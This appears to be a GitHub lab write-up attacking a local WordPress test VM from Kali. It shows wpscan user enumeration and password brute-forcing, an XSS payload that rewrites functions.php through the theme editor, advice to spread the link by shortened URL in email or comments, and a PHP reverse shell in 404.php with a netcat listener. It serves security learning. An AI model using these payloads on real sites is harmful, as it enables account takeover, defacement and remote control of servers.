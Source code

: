 # WordPressvsKali
Exploit 1: User Enumeration

In this exploit, I launched a user enumeration attack on WPDistillery.vm

1. Open a terminal in Kali
2. Access wpscan tool
3. Input the command
  - sudo wpscan --url http://wpdistillery.vm -e u rockyou.txt
  - Note: -e = enumeration, u = user, and I used rockyou.txt as the userlist.
  
  ![image](https://user-images.githubusercontent.com/111927957/198867624-89719a11-b1f8-4dac-9ea2-abc15ae25f50.png)
  
  The results of the user enumeration scan:
  
  ![image](https://user-images.githubusercontent.com/111927957/198867668-cf89a4a8-8283-4ad0-8e65-b0676c2a8c3c.png)
  
  The enumeration scan identified "admin" as an available user.
  
  This can be checked by attempting to login as Admin on wpdistillery.vm/wp-login.php
  
  ![image](https://user-images.githubusercontent.com/111927957/198867726-35f6a92c-34ed-4111-be9f-97624dd0da9b.png)
  
  The results show that "The password you entered for the username admin is incorrect". This proves that admin is a user on this website. 
  
  Next, I will bruteforce into admin using wpscan.
  
  1. Continuing on the same terminal, insert the command: 
    - sudo wpscan --url http://wpdistillery.vm/wp-login.php -U 'admin' -P fasttrack.txt
    - Note: I'm using fasttrack.txt wordlist to bruteforce into admin.
  ![image](https://user-images.githubusercontent.com/111927957/198867852-f8efa7d9-37e8-4bf9-aee1-a6349979a3dc.png)
  
  ![image](https://user-images.githubusercontent.com/111927957/198867860-d9372c27-a756-4ffc-9b8a-43e7f6f55b2d.png)
  
  Results of the wpscan shows that user "admin" has the password "admin".

  Now we are able to log in as admin and access the website.
  
  Exploit 2: XSS
  
  In this exploit, I will show a method to launch a XSS attack. 
  
  1. As admin, add this script as a new post in the text tab then publish:
     - <script>eval(window.location.hash.substring(1))</script>
     - This makes the website vulnerable to XSS
     - To confirm that it works, go back to the mainpage wpdistillery.vm then add /#alert(1)
     - An alert box should pop up, showing (1)
     ![image](https://user-images.githubusercontent.com/111927957/198874401-26b38a41-6bc0-444d-a1bb-e3b1a6b4c81b.png)
     
   2. Go to theme editor > file functions.php
   3. Insert the following code to break the page:
   -nc=document.querySelector('#newcontent');nc.value='<?php echo "HACK THE PLANET";phpinfo();exit()?>'+nc.value;nc.form.submit.click()
   
   4. Refresh the page the add this to the end of the URL:
   #i=document.createElement('iframe');document.body.appendChild(i);i.src='/wp-admin/theme-editor.php?      file=functions.php';window.setTimeout(function(){nc=i.contentDocument.querySelector('#newcontent');nc.value='<?php echo "HACK THE PLANET";phpinfo();exit()?>'+nc.value;nc.form.submit.click()},3000)
  
   5. Users now won't have access to the website.

![image](https://user-images.githubusercontent.com/111927957/198875062-37c59997-b311-4f63-a008-697fabf3d330.png)

  6. Use a URL shortener to deliver and send this attack as an email or even a comment that the user would read/click on.

Exploit 3: Privilege Escalation

  This exploit will show privilege escalation on WPDistillery.vm
  
  1. Using user enumeration as previously shown, the attacker can use leverage this skill by finding a user available for attack.
  2. Once the user is able to log in using an authenticated user, the attacker can now attempt to escalate the privilege by opening a reverse shell.
  3. This can be done by using 404.php template on WordPress and inserting a reverse shell implementation php.
      ![image](https://imgur.com/VtOM9as.gif)
      
  4. The reverse shell php file can be found in usr/share/webshells
    ![image](https://imgur.com/MiJ6IKF.gif)
      
  5. Make sure to change the IP and Port configuration on the reverse shell php to the correct IP and listening Port so          NetCat can listen to the specified port and access the shell.
  
  6. Use the following command to listen on the specified port:
     - nc -lvp 443
   
  7. If successful, the user should be inside the console.
  8. This can be confirmed by using whoami command in the console. 




  

